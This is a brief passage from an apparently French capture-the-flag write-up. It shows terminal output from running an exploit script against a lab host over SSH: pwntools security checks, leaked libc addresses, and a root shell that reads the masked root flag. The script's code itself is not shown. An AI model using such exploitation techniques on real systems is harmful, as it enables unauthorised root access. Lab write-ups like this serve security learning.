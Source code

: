 ```
```

Maintenant, y'a plus qu'à
```
┌──(root㉿kali)-[~/2.exp]
└─# ./remote.py 
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Connecting to 10.10.167.211 on port 22: Done
[*] zeeshan@10.10.167.211:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Opening new channel: '/exploit_me': Done
Gets : dbd90
Puts : dc6a0
[*] Switching to interactive mode
# $ id
uid=0(root) gid=1000(zeeshan) groups=1000(zeeshan),27(sudo)
# $ cat /root/root.txt
THM{xxxxxxxxxxxxxxxxxxxxx}
```

Et voilà !
